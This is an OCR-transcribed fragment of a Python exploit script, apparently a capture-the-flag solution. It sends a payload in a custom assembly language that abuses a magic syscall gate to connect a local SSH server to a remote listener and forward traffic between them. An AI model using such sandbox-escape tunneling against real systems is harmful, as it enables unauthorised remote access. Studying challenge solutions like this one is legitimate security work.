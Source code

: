 ```python

// Connect to local SSH server and remote listener
0x133769 sys_connect connect_localhost_args output
0x133769 sys_connect connect_remote_args output

// Forwarding loop
// Local -> remote
0x133769 sys_recvfrom recvfrom_local_args output
te constMinus1 output test_pad                  // Check if return value == -1
mult test_pad const20 test_pad                  // Use mult and add as a branch
add 0 test_pad 0
0x133769 bad_syscall5 shit shit                 // Tracepoint
add output zero write_remote_size
add output zero write_packet_size
0x133769 sys_write write_remote_args output     // Write to remote
0x133769 sys_write write_packet_args output     // Write to screen
0x133769 sys_write write_sep_args output        // Write seperator
0x133769 bad_syscall6 shit shit                 // Tracepoint

// Remote -> local
0x133769 sys_recvfrom recvfrom_remote_args output
te constMinus1 output test_pad                  // Check if return value == -1
mult test_pad const20 test_pad                  // Use mult and add as a branch
add 0 test_pad 0
0x133769 bad_syscall0 shit shit                 // Tracepoint
add output zero write_local_size
add output zero write_packet_size
0x133769 sys_write write_local_args output      // Write to local
0x133769 sys_write write_packet_args output     // Write to screen  
0x133769 sys_write write_sep_args output        // Write seperator
0x133769 bad_syscall2 shit shit                 // Tracepoint

sub 0 loop_size 0

0x133769 sys_write write_output_args output
0x133769 sys_write write_packet_args output
"""

def main():
    #fuzz_opcodes()
    #fuzz_syscall_numbers()
    #exit(0)

    d = assemble_and_send(exploit, close=False, cont=True)

if __name__=="__main__":
    main()
```
